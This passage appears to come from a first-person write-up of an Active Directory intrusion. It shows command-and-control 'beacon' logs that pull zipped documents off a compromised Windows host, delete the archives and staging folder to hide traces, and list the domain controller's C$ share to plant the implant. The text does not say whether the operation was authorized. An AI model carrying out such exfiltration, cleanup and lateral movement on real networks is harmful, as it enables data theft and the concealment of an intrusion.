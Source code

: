Now we download them and remove the archived files and the `junk` folder

```
beacon> download C:\Windows\Temp\junk\csv-files.zip
[*] Tasked beacon to download C:\Windows\Temp\junk\csv-files.zip
beacon> download C:\Windows\Temp\junk\maintance.zip
[*] Tasked beacon to download C:\Windows\Temp\junk\maintance.zip
[+] host called home, sent: 84 bytes
[+] started download of C:\Windows\Temp\junk\csv-files.zip (374501 bytes)


[+] started download of C:\Windows\Temp\junk\maintance.zip (2454197 bytes)


[+] download of csv-files.zip is complete

[+] download of maintance.zip is complete

beacon> rm C:\Windows\Temp\junk\csv-files.zip
[*] Tasked beacon to remove C:\Windows\Temp\junk\csv-files.zip
beacon> rm C:\Windows\Temp\junk\maintance.zip
[*] Tasked beacon to remove C:\Windows\Temp\junk\maintance.zip
[+]  host called home, sent: 122 bytes
beacon> rm C:\Windows\Temp\junk
[*] Tasked beacon to remove C:\Windows\Temp\junk
[+]  host called home, sent: 61 bytes
```

Sadly not all of them were archived and I had to give up on it. Not everything works users :(
However, to the rest of the machines we got enough documents we were looking for but I had to spend looking around until we've
pwned all the machines on the active directory network.

Finally the **domain controller (DC)** I thought I've finally pwned the whole network but what I didn't expect is the DC is blocking
the beacon from executing it which took me minutes to realize this that **Windows Defender** is actually active on the domain
controller. At first I had to list the files on `C$` share on **AQUILA** which I can upload the beacon shell. Then execute it remotely and
then nothing happens.

```
beacon> ls \\AQUILA\C$
[*] Tasked beacon to list files in \\AQUILA\C$
[+] host called home, sent: 29 bytes
\\AQUILA\C$\*  
D       0       11/26/2021 21:43:28     $Recycle.Bin  
F       384322  07/16/2016 23:18:08     bootmgr  
F       1       07/16/2016 23:18:08     BOOTNXT  
D       0       11/13/2020 21:30:11     Distrib  
D       0       10/06/2020 22:11:30     Documents and Settings  
D       0       06/17/2021 08:08:42     ExchangeCert  
D       0       10/28/2020 22:54:15     inetpub  
D       0       10/09/2020 08:29:13     LdapAdmin  
D       0       10/28/2020 23:06:10     Logs  
D       0       10/26/2020 16:12:10     MSOCache  
F       4414324736      03/17/2022 21:08:41     pagefile.sys  
D       0       10/07/2020 03:26:41     PerfLogs  
D       0       09/01/2021 22:03:05     Program Files  
D       0       10/28/2020 23:08:00     Program Files (x86)  
D       0       03/24/2022 06:25:40     ProgramData  
D       0       10/06/2020 22:11:32     Recovery  
D       0       10/07/2020 03:48:23     System Volume Information  
D       0       11/26/2021 21:43:18     Users  
D       0       03/24/2022 08:52:54     Windows  
D       0       10/08/2020 23:58:52     zabbix_agent  
```